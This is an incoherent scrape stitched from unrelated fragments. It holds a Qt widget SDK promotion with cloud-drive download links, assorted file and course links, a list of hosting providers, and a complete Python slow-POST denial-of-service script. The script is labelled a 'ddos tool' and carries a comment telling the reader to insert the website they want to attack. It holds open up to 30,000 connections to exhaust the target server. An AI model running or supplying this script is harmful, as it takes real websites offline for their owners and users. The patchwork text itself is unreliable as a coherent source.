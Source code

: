 http://blog.sina.com.cn/liang19890820
qt组件   简书：https://www.jianshu.com/u/1250ab46f9ad
https://www.jianshu.com/c/1b908f2aab44
SDK下载链接：https://pan.baidu.com/s/1A5Gd77kExm8Co5ckT51vvQ 提取码：877p
下载链接中包含了各个版本的动态库文件，所有控件的头文件，使用demo，自定义控件+属性设计器。
自定义控件插件开放动态库dll使用（永久免费），无任何后门和限制，请放心使用。
目前已提供26个版本的dll，其中包括了qt5.12.3 msvc2017 32+64 mingw 32+64 的。
不定期增加控件和完善控件，不定期更新SDK，欢迎各位提出建议，谢谢！
widget版本（QQ：517216493）qml版本（QQ：373955953）三峰驼（QQ：278969898）。
涛哥的知乎专栏 Qt进阶之路 https://zhuanlan.zhihu.com/TaoQt
欢迎关注微信公众号【高效程序员】，C++/Python、学习方法、写作技巧、热门技术、职场发展等内容，干货多多，福利多多！
Qt入门书籍推荐霍亚飞的《Qt Creator快速入门》《Qt5编程入门》，Qt进阶书籍推荐官方的《C++ GUI Qt4编程》。
强烈推荐程序员自我修养和规划系列书《大话程序员》《程序员的成长课》《解忧程序员》

链接：https://pan.baidu.com/s/10LeAj8vcXaTjr8MgKjRC9A 
提取码：78bz 
复制这段内容后打开百度网盘手机App，操作更方便哦

用户名
@StockMarketGossip

https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
